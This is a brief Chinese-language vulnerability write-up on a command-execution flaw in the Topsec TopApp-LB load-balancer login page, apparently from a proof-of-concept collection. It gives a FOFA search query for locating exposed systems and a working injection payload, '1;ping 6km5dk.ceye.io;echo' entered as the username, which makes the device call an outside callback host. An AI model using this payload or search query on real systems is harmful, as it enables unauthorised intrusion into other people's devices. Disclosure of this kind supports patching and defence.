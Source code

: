 # 天融信 TopApp-LB 命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录界面中存在命令执行



账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**



![](images/202202091921374.png)



成功收到请求



![](images/202202091921379.png)
